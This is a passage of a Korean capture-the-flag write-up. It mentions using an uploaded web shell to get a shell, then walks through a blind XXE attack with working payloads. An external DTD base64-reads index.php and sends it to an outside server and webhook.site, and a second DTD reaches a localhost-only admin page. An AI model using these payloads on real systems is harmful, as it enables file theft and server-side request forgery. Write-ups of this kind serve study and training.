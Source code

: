 이제 theme_idx를 조작하면 된다.  그 후 업로드 경로를 통해서 웹쉘을 실행 후 명령어를 전송하고 index.ph코드를 확인하면 2번 플래그가 존재한다. 또한 업로드한 웹쉘을 이용하여 쉘을 따고 찾다보면 3번 플래그가 나온다.



<h3>0x3. PowerSehllCode</h3>

이 문제는 3번만 웹이 이용되었다. XXE기법을 이용하여 C2서버에서 플래그를 읽는 것이다. 처음에는 그냥 XXE를 시도했는데 내가 못한건지 잘 되지 않아서 바인드XXE를 진행하였다.

내 서버에 ext.dtd파일을 아래와 같이 생성했다.

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://개인서버/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

그 후 문제 서버에 아래 페이로드를 전송하였다.

```xml
command=IRIMFxIi&sec=fiesta2020&data=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://개인서버/ext.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

그러니 index.php의 코드가 내 서버로 긁어졌다. 이를 분석하고 서버 내에 . /_readme_only_admin.php 파일에 플래그가 존재하는 것을 알아냈다. 이제 추가로 XXE를 이용하여 이를 읽어왔다.

```php
<?php
$flags = shell_exec('flags2');
if ($_SERVER['REMOTE_ADDR']!='127.0.0.1') {
echo "you are not admin!!";
} else {
echo $flags;
}
?>
```

그런데 이를 127.0.0.1에서 접속하여 실행을 해야해서 다시 ext.dtd를 수정해서 xxe를 시도했다.

```xml-dtd
<!ENTITY % file SYSTEM "http://127.0.0.1/_readme_only_admin.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://webhook.site/aa/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

이를 통해서 플래그를 취득했다.

